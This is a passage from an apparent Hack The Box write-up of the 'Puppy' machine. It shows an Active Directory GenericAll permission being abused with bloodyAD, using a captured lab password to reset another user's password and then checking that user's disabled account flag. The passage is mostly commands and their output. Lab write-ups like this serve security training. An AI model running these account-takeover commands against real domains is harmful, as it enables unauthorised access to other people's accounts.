 ### GenericAll and Account Enabled

If we look at Ant Edwards' delegated object control, we can see he is a member of the "Senior Dev" group, and that group has `GenericAll` access on the adam.silver user.

<img src="assets/HTB/Puppy/image3.png" alt="Error loading">

Now, using BloodyAD, we change the password of this user:

```
┌──(kali㉿kali)-[~/HTB-machine/puppy]
└─$ bloodyAD -u ant.edwards -p 'Antman2025!' -d puppy.htb --dc-ip $IP set password adam.silver 'NewPassword123'                
[+] Password changed successfully!
```

When we try to log in, it doesn't work because the account is disabled.

Here, the account is shown as disabled:

```
bloodyAD -u ant.edwards -p 'Antman2025!' -d puppy.htb --dc-ip $IP get object 'CN=ADAM D. SILVER,CN=USERS,DC=PUPPY,DC=HTB' --attr userAccountControl     
```
```                                                                                                       
┌──(kali㉿kali)-[~/HTB-machine/puppy]
└─$bloodyAD -u ant.edwards -p 'Antman2025!' -d puppy.htb --dc-ip $IP get object 'CN=ADAM D. SILVER,CN=USERS,DC=PUPPY,DC=HTB' --attr userAccountControl     

distinguishedName: CN=ADAM D. SILVER,CN=USERS,DC=PUPPY,DC=HTB
userAccountControl: ACCOUNTDISABLE; NORMAL_ACCOUNT                                                   
```

